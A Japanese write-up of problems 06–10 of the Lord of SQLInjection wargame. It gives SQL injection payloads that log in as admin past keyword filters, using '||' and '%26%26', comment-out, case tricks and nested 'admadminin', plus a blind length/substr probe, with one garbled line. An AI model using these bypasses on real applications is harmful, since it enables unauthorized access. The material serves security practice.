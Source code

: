 # Lord of SQLInjection writeup 06-10
## 06 - darkelf
今度は`and`と`or`が禁止されている。  
05と同じ方法が使えるのでそのまま実行する。

### 回答例
```
?pw=0'||id='admin
```
> query : select id from prob_darkelf where id='guest' and pw='0'||id='admin'

## 07 - orge
04と同じ問題だが、また`and`と`or`が禁止されている。  
先ほどの`or`を`||`に、`and`を`%26%26`に置き換えてやり直してみる。

```
?pw='||id='admin'%26%26length(pw)=1%23
?pw='||id='admin'%26%26length(pw)=2%23
?pw='||id='admin'%26%26length(pw)=3%23
:
?pw='||id='admin'%26%26length(pw)=8%23
```
またもや8文字らしい。  
```
?pw='||id='admin'%26%2substr(pw,1,1)='0'%23
?pw='||id='admin'%26%2substr(pw,1,1)='1'%23
?pw='||id='admin'%26%2substr(pw,1,1)='2'%23
:
```

### 回答例
```
?pw=7b751aec
```
> query : select id from prob_orge where id='guest' and pw='7b751aec'

## 08 - troll
`id='admin'`を取ってきたいが、`admin`の入力が禁止されている。  
`adm`と`in`を結合することを考えたが、`'`や`"`が禁止されているので、結合も難しい。

MySQLはデフォルト設定の場合、文字列比較で大文字小文字を区別しないので、  
`admin`がダメなら`ADMIN`にしてみる。  

### 回答例
```
?id=ADMIN
```
> query : select id from prob_troll where id='ADMIN'

## 09 - vampire
入力された`id`を小文字にし、str_replaceを用いて`admin`をブランクに置換している。  
`admin`が消されると`admin`が完成する？ように、うまく囲ってあげればよい。  

### 回答例
```
?id=admadminin
```
> query : select id from prob_vampire where id='admin'

## 10 - skeleton
もともとSQL文の後方にand 1=0が付いているが、特に気にせずにコメントアウトする。  
これまでの問題の解法と比べて特筆すべきことは無い。  

### 回答例
```
?pw=' or id='admin'%23
```
> query : select id from prob_skeleton where id='guest' and pw='' or id='admin'#' and 1=0
